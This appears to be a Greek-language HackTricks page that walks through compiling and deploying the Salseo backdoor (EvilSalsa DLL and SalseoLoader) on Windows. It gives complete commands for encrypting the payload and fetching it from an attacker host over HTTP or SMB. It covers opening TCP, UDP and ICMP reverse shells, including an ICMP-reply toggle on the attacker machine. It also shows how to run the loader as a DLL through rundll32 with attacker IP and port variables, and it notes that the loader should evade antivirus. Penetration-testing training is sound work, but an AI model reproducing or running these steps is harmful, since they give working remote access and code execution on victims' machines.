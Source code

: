 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Συγκέντρωση των δυαδικών αρχείων

Κατεβάστε τον πηγαίο κώδικα από το github και συγκεντρώστε το **EvilSalsa** και το **SalseoLoader**. Θα χρειαστείτε εγκατεστημένο το **Visual Studio** για να συγκεντρώσετε τον κώδικα.

Συγκεντρώστε αυτά τα έργα για την αρχιτεκτονική του υπολογιστή Windows όπου θα τα χρησιμοποιήσετε (Αν τα Windows υποστηρίζουν x64, συγκεντρώστε τα για αυτές τις αρχιτεκτονικές).

Μπορείτε να **επιλέξετε την αρχιτεκτονική** μέσα στο Visual Studio στην **αριστερή καρτέλα "Build"** στην **"Platform Target".**

(\*\*Αν δεν μπορείτε να βρείτε αυτές τις επιλογές, πατήστε στην **"Project Tab"** και στη συνέχεια στην **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (839).png>)

Στη συνέχεια, κατασκευάστε και τα δύο έργα (Build -> Build Solution) (Μέσα στα logs θα εμφανιστεί η διαδρομή του εκτελέσιμου):

![](<../.gitbook/assets/image (381).png>)

## Προετοιμάστε το Backdoor

Πρώτα απ' όλα, θα χρειαστεί να κωδικοποιήσετε το **EvilSalsa.dll.** Για να το κάνετε αυτό, μπορείτε να χρησιμοποιήσετε το python script **encrypterassembly.py** ή μπορείτε να συγκεντρώσετε το έργο **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Εντάξει, τώρα έχετε όλα όσα χρειάζεστε για να εκτελέσετε όλα τα πράγματα Salseo: το **encoded EvilDalsa.dll** και το **binary of SalseoLoader.**

**Ανεβάστε το SalseoLoader.exe binary στη μηχανή. Δεν θα πρέπει να ανιχνευτούν από κανένα AV...**

## **Εκτέλεση του backdoor**

### **Λήψη ενός TCP reverse shell (κατεβάζοντας το encoded dll μέσω HTTP)**

Θυμηθείτε να ξεκινήσετε ένα nc ως τον listener του reverse shell και έναν HTTP server για να σερβίρετε το encoded evilsalsa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Λήψη ενός UDP reverse shell (κατέβασμα κωδικοποιημένου dll μέσω SMB)**

Θυμηθείτε να ξεκινήσετε ένα nc ως τον listener του reverse shell και έναν SMB server για να εξυπηρετήσει το κωδικοποιημένο evilsalsa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Λήψη ICMP αντίστροφης θήκης (κωδικοποιημένο dll ήδη μέσα στον θύμα)**

**Αυτή τη φορά χρειάζεστε ένα ειδικό εργαλείο στον πελάτη για να λάβετε την αντίστροφη θήκη. Κατεβάστε:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Απενεργοποίηση Απαντήσεων ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Εκτέλεση του πελάτη:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Μέσα στον θύμα, ας εκτελέσουμε το salseo πράγμα:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Συγκέντρωση του SalseoLoader ως DLL που εξάγει τη βασική λειτουργία

Ανοίξτε το έργο SalseoLoader χρησιμοποιώντας το Visual Studio.

### Προσθέστε πριν από τη βασική λειτουργία: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### Εγκαταστήστε το DllExport για αυτό το έργο

#### **Εργαλεία** --> **Διαχειριστής Πακέτων NuGet** --> **Διαχείριση Πακέτων NuGet για Λύση...**

![](<../.gitbook/assets/image (881).png>)

#### **Αναζητήστε το πακέτο DllExport (χρησιμοποιώντας την καρτέλα Αναζήτηση) και πατήστε Εγκατάσταση (και αποδεχτείτε το αναδυόμενο παράθυρο)**

![](<../.gitbook/assets/image (100).png>)

Στο φάκελο του έργου σας έχουν εμφανιστεί τα αρχεία: **DllExport.bat** και **DllExport\_Configure.bat**

### **Α**πεγκαταστήστε το DllExport

Πατήστε **Απεγκατάσταση** (ναι, είναι περίεργο αλλά εμπιστευτείτε με, είναι απαραίτητο)

![](<../.gitbook/assets/image (97).png>)

### **Έξοδος από το Visual Studio και εκτέλεση του DllExport\_configure**

Απλά **έξοδος** από το Visual Studio

Στη συνέχεια, πηγαίνετε στο **φάκελο SalseoLoader** σας και **εκτελέστε το DllExport\_Configure.bat**

Επιλέξτε **x64** (αν πρόκειται να το χρησιμοποιήσετε μέσα σε ένα x64 box, αυτό ήταν η περίπτωση μου), επιλέξτε **System.Runtime.InteropServices** (μέσα στο **Namespace για DllExport**) και πατήστε **Εφαρμογή**

![](<../.gitbook/assets/image (882).png>)

### **Ανοίξτε ξανά το έργο με το Visual Studio**

**\[DllExport]** δεν θα πρέπει πλέον να επισημαίνεται ως σφάλμα

![](<../.gitbook/assets/image (670).png>)

### Δημιουργία της λύσης

Επιλέξτε **Τύπος Έξοδου = Βιβλιοθήκη Κλάσης** (Έργο --> Ιδιότητες SalseoLoader --> Εφαρμογή --> Τύπος εξόδου = Βιβλιοθήκη Κλάσης)

![](<../.gitbook/assets/image (847).png>)

Επιλέξτε **πλατφόρμα x64** (Έργο --> Ιδιότητες SalseoLoader --> Δημιουργία --> Στόχος πλατφόρμας = x64)

![](<../.gitbook/assets/image (285).png>)

Για να **δημιουργήσετε** τη λύση: Δημιουργία --> Δημιουργία Λύσης (Μέσα στην κονσόλα εξόδου θα εμφανιστεί η διαδρομή της νέας DLL)

### Δοκιμάστε την παραγόμενη DLL

Αντιγράψτε και επικολλήστε την DLL όπου θέλετε να τη δοκιμάσετε.

Εκτελέστε:
```
rundll32.exe SalseoLoader.dll,main
```
Αν δεν εμφανιστεί σφάλμα, πιθανότατα έχετε μια λειτουργική DLL!!

## Αποκτήστε ένα shell χρησιμοποιώντας τη DLL

Μην ξεχάσετε να χρησιμοποιήσετε έναν **HTTP** **server** και να ρυθμίσετε έναν **nc** **listener**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
